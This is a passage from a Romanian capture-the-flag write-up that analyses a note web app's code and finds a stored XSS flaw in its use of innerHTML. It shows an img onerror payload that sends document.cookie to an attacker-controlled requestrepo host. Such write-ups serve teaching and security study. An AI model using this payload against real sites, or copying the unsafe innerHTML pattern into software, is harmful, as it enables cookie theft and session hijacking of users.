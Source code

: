 Dar cum arată aceste note? Dacă urmărim `src/index.ts`:
```ts
app.get('/note/:id', (_, res) => {
  res.sendFile(path.join(process.cwd(), 'static/note.html'))
})
```
Unde id-ul notei este preluat direct din path (acesta este un alt mod în care se poate trimite informație prin request-uri HTTP).

Okay, știm că vrem să obținem XSS, așa că ne uităm în `note.html`:
```html
  <script>
    window.addEventListener('load', () => {
      const noteId = window.location.pathname.split('/').pop()

      document.querySelector('#reportNoteUrl').addEventListener('click', () => {
        fetch('/api/v1/note/report', {
          method: 'POST',
          headers: { 'Content-Type': 'application/json' },
          body: JSON.stringify({ id: window.noteId }),
        })
          .then((result) => result.json())
          .then((result) => {
            if (Object.prototype.hasOwnProperty.call(result, 'message')) {
              document.querySelector('#reportMessage').innerHTML =
                result.message
            } else {
              document.querySelector('#reportMessage').innerHTML =
                'Failed to report note'
            }
          })
      })

      fetch(`/api/v1/note/?id=${noteId}`)
        .then((result) => result.json())
        .then((result) => {
          const node = document.querySelector('#content')
          node.innerHTML = result.content
          window.noteId = noteId
        })
    })
  </script>
```

Nu este foarte mult cod. Avem un buton pentru a raporta nota, și un `fetch` făcut atunci când codul HTML s-a încărcat. Importantă este această linie:
```js
node.innerHTML = result.content
```
Conținutul notei o să fie introdus direct ca HTML în pagină. Deci, dacă avem o notă cu conținut HTML de genul: 
```
<img src=x onerror=fetch("//attacker.requestrepo.com/",{method:"POST",body:document.cookie})/>
```
putem obține execuție de cod în JavaScript. Deoarece resursa `x` nu există, se va apela handler-ul `onerror`, care va *exfiltra* flag-ul către requestrepo (sau alt server la care avem acces la loguri).
